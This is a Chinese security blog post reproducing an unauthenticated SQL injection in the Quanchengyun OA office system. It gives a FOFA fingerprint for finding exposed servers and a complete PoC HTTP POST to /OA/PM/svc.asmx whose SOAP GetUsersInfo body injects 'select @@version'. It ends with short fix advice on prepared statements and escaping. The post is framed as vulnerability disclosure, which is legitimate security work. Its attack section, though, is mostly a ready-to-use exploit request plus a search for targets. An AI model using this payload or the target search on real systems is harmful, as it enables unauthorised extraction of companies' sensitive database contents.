


# 全程云OA SQL注入漏洞复现

### 0x01 产品简介

  全程云OA为企业提供日常办公管理、公文管理、工作请示、汇报、档案、知识体系、预算控制等26个功能，超过100多个子模块。为企业内部提供高效、畅通的信息渠道，同时也能大力推动公司信息系统发展，提高企业的[办公自动化](https://so.csdn.net/so/search?q=%E5%8A%9E%E5%85%AC%E8%87%AA%E5%8A%A8%E5%8C%96&spm=1001.2101.3001.7020)程度和综合管理水平，加快企业信息的流通，提高企业市场竞争能力。

### 0x02 漏洞概述

 由于全程云[oa办公系统](https://so.csdn.net/so/search?q=oa%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)/OA/PM/svc.asmx页面参数过滤不当，导致存在sql注入漏洞，未授权的攻击者可利用该漏洞获取数据库中的敏感信息。

### 0x03 复现环境

FOFA：body="images/yipeoplehover.png"



### 0x04 漏洞复现 

PoC

```cobol
POST /OA/PM/svc.asmx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: text/xml
Accept-Encoding: gzip
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUsersInfo xmlns="http://tempuri.org/">
      <userIdList>select @@version</userIdList>
    </GetUsersInfo>
  </soap:Body>
</soap:Envelope>
```

查询数据库版本



### 0x05 修复建议 

 使用预编译语句。

对进入数据库的特殊字符进行转义处理。
